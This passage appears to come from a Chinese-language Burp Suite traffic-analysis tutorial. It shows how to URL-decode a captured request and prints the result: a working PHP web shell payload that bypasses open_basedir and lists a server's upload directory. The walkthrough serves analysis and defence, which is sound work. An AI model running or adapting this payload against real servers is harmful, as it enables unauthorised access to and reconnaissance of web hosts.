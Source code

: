 ![复制编码](./../../../../images/Burp%20Suite/%E5%A4%8D%E5%88%B6%E7%BC%96%E7%A0%81.png)

粘贴到编码工具中用 URL 解码

![粘贴到编码工具中用 URL 解码](./../../../../images/Burp%20Suite/%E7%B2%98%E8%B4%B4%E5%88%B0%E7%BC%96%E7%A0%81%E5%B7%A5%E5%85%B7%E4%B8%AD%E7%94%A8%20URL%20%E8%A7%A3%E7%A0%81.png)

复制解码后的文本到文本编辑器查看

```php
@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.70f94b11fb2c";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "4435"."fedf3";echo @asenc($output);echo "aac1b5"."3e6fee";}ob_start();try{$D=base64_decode(substr($_POST["v8255f661bbec7"],2));$F=@opendir($D);if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$M=NULL;$L=NULL;while($N=@readdir($F)){$P=$D.$N;$T=@date("Y-m-d H:i:s",@filemtime($P));@$E=substr(base_convert(@fileperms($P),10,8),-4);$R="	".$T."	".@filesize($P)."	".$E."
";if(@is_dir($P))$M.=$N."/".$R;else $L.=$N.$R;}echo $M.$L;@closedir($F);};}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&v8255f661bbec7=CsL3Zhci93d3cvaHRtbC91cGxvYWQv
```
